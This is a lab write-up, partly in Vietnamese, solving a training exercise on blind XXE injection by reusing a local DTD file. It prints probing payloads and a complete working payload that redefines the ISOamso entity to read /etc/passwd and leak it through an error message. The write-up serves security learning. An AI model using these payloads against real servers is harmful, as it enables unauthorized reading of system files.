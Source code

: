 # Target Goal
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.

You'll need to reference an existing DTD file on the server and redefine an entity from it.
# Analysis
Đối với mục tiêu của bài lab, ta sẽ tấn công vào tính năng `Check stock`

![image](https://github.com/user-attachments/assets/1b1b7358-26f1-40a6-b84e-65143b5610b0)

Sử dụng Burp để xem nội dung gói tin 

![image](https://github.com/user-attachments/assets/abf64c2f-f720-46a8-974d-628cbc2df1a6)

Vì cuộc tấn công **XXE** này liên quan đến việc tái sử dụng một DTD hiện có trên hệ thống tệp máy chủ, nên yêu cầu chính là xác định vị trí tệp phù hợp. Khi kiểm tra local DTD sai, nó trả về lỗi:
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///WindowsSystem32/wbem/xml/cim20.dtd">
%local_dtd;
]>
```

![image](https://github.com/user-attachments/assets/e1148ad4-d7e7-480c-856e-d98ce4376676)

Khi kiểm tra local DTD đúng, nó sẽ không trả về lỗi
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```
![image](https://github.com/user-attachments/assets/304a0f53-5a57-4420-9937-46fe36c4731a)

Dựa vào hint bài lab cho để đỡ mất thời gian search :)) ta có enity `ISOamso` ở trong **GNOME desktop**. Ta sẽ dựng được payload sau

![image](https://github.com/user-attachments/assets/dafe380a-fe3b-4baf-8fdd-f991897a9ed5)
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
Sau khi gửi payload, chúng ta nhận được thông báo lỗi chứa nội dung tệp /etc/passwd, bài lab hoàn thành:

![image](https://github.com/user-attachments/assets/f64126d3-11a7-4ba2-ae2c-e7256b4ef3e8)

# Flag
![image](https://github.com/user-attachments/assets/553be9c7-5e67-4c31-9f85-df0f533942ed)


